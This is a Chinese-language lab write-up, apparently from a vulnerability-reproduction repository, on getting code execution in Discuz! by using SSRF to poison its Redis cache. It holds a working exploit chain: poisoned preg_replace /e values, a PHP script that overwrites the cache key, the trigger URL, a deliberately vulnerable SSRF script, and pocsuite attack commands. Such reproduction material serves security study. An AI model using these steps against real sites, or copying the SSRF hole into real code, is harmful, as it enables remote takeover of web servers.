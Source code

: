# Discuz!利用SSRF+Redis缓存应用导致有条件代码执行
## 0x00漏洞简介
当dz设置使用缓存后，初始化时会把缓存内容加入全局变量$_G.而在调用缓存的地方source/fucntion/function_core.php中:
```
function output_replace($content) {
        ...
        if(...){
        ....
        $content = preg_replace($_G['setting']['output']['preg']['search'], $_G['setting']['output']['preg']['replace'],$content);
        }
        return $content;
}
```
其中，关键点的两个变量我们都可以通过redis修改:
```
$_G['setting']['output']['preg']['search']=”/.*/e”;
$_G['setting']['output']['preg']['replace']=”phpinfo();”;
```
dz使用redis时，全局变量$_G[‘setting’]放在xxxx_setting中的，其中前缀就是前面config_global.php中的prefix的值.也可以在redis-cli中通过如下命令查看：
```
keys *          #查看所有键
keys *_setting  #模糊查询的方式查找匹配的键
```
得到键名后通过以下方式修改本地缓存：
```
<?php
$a['output']['preg']['search']['plugins'] = "/.*/e";
$a['output']['preg']['replace']['plugins'] = "phpinfo();";
$a['rewritestatus']['plugins']=1;
$setting = serialize($a);
$redis = new Redis();
$redis->connect('127.0.0.1',6379);
$redis->set("kQbXlj_setting",$setting);
?>
```
复写缓存后访问如下地址就能发现成功getshell:
```
/discuz/forum.php?mod=ajax&inajax=yes&action=getthreadtype
```
## 0x01环境搭建
###获取镜像
环境搭建共使用三个镜像：MySQL、Redis和安装过phpredis的Discuz!  
其中MySQL和Redis的镜像可用以下命令从官方获取：
```
docker pull mysql
docker pull redis
```
鉴于国外源的镜像仓库速度缓慢且有时容易中断无响应，建议通过[DaoCloud](https://www.daocloud.io/)拉取镜像

[安装过phpredis的Discuz!下载地址](http://pan.baidu.com/s/1nvGm46d)

从discuz.tar.gz恢复出Discuz!镜像：

```
gzip -dc discuz.tar.gz | docker load
```
###运行镜像
```
docker run --name dz-mysql -e MYSQL_ROOT_PASSWORD=root -d mysql

docker run --name dz-redis -d redis

docker run --name dz-ssrf --link dz-mysql:mysql -p 8888:80 -d dz-redis-init apache2 "-DFOREGROUND"
```
访问127.0.0.1:8888进行Discuz!的安装.

安装过后将config/config_global.php中redis的地址和端口改为redis容器的地址和端口（可用docker inspect dz-redis查看IP）.

在后台中 全局 -> 性能优化 -> 内存优化 中查看redis是否被启用，若已启用则搭建完成.

## 0x02漏洞验证
在/discuz根目录下放置了ssrf_gopher.php用于构造ssrf.内容如下:
```
<?php
$ch = curl_init();
$url = $_GET['ssrf'];
echo $url.'<br/>';

curl_setopt($ch, CURLOPT_URL, $url);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
curl_setopt($ch, CURLOPT_HEADER, 0);

$output = curl_exec($ch);
curl_close($ch);
print_r($output);
?>
```
验证：
```
pocsuite -r discuz_redis_ssrf_exec.py -u "http://127.0.0.1:8888/discuz/ssrf_gopher.php?ssrf=" --verify
```
攻击：
```
pocsuite -r discuz_redis_ssrf_exec.py -u "http://127.0.0.1:8888/discuz/ssrf_gopher.php?ssrf=" --attack
```
